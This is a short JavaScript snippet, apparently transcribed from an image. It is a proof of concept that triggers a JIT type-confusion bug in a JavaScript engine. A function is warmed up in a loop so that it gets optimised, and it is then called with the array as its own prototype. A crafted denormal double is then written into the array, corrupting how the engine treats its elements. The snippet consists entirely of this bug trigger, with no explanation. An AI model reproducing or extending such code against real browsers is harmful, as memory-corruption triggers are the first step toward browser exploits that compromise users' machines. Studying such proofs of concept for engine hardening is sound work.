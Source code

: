 
function opt(arr, proto) {
    arr[0] = 1.1;
    let tmp = {__proto__: proto};
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    for (let i = 0; i < 10000; i++) {
        opt(arr, {});
    }

    opt(arr, arr);
    print(arr);

}

main();
